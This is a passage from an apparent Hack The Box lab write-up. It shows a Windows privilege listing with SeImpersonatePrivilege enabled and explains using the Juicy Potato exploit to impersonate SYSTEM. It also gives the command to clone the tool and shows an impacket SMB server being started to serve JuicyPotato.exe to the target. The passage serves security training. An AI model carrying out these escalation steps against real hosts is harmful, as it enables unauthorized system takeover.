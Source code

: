 ```
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We see we have `SeImpersonatePrivilege` enabled.  `SeImpersonatePrivilege` allows a user account to impersonate another user for a brief period of time. We are going to abuse this to impersonate the `SYSTEM` user to get the highest privileges possible on this host. We can use the `Juicy Potato` exploit which we have used in a previous box [Devel](https://blauersec.com/hack%20the%20box/2021/05/27/htb-devel.html) to abuse the fact that `SeImpersonatePrivilege` is enabled. If you want some more detail on `Juicy Potato`, please take a look at my [Devel](https://blauersec.com/hack%20the%20box/2021/05/27/htb-devel.html) blog post at the privilege escalation section. To go ahead and start the process of utilizing Juicy Potato, let's setup a SMB server that has our `JuicyPotato.exe` within our directory. You can get `Juicy Potato` by using `git clone https://github.com/ohpe/juicy-potato.git`. 

```bash
root@kali-[/opt/potato]ls -lah
total 776K
drwxr-xr-x  2 root root 4.0K May 31 01:24 .
drwxr-xr-x 25 root root 4.0K Jun 14 12:19 ..
-rw-r--r--  1 root root 340K Aug 10  2018 JuicyPotato.exe
-rw-r--r--  1 root root 125K May 11  2020 RogueOxidResolver.exe
-rw-r--r--  1 root root 156K May 11  2020 RoguePotato.exe
-rw-r--r--  1 root root 144K May 11  2020 RoguePotato.zip
                                                                                                                                                                                                                                            
root@kali-[/opt/potato]smbserver.py share .
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
